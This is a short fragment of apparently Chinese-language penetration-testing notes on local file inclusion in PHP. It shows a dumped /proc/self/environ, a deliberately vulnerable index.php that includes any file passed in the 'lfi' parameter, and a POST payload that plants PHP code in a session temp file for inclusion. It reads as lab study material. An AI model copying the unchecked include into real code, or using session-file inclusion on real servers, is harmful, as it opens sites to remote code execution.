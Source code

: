 ```
[root@b19f05cf6eb3 self]# cat environ
LC_MEASUREMENT=zh_CN.UTF-8LC_PAPER=zh_CN.UTF-8LC_MONETARY=zh_CN.UTF-8LANG=en_US.UTF-8LC_NAME=zh_CN.UTF-8LC_ADDRESS=zh_CN.UTF-8LC_NUMERIC=zh_CN.UTF-8LC_TELEPHONE=zh_CN.UTF-8LC_IDENTIFICATION=zh_CN.UTF-8LC_TIME=zh_CN.UTF-8USER=rootLOGNAME=rootHOME=/rootPATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/binMAIL=/var/mail/rootSHELL=/bin/bashSSH_CLIENT=172.19.0.1 51494 22SSH_CONNECTION=172.19.0.1 51494 172.19.0.2 22SSH_TTY=/dev/pts/0TERM=xterm-256color
```

* 临时文件sess_.....  

index.php
```php
<?php  
session_start();
$p1 = $_POST['p1'];
$_SESSION['p1'] = $p1;


$file1 = $_GET['lfi'];
if (isset($file1)) {
	include $file1;
}else{
	header('Location: ?lfi=123.txt');
}
?>
```

POST请求`p1=<?php phpinfo();?>`  

![](assets/markdown-img-paste-20180413111527757.png)
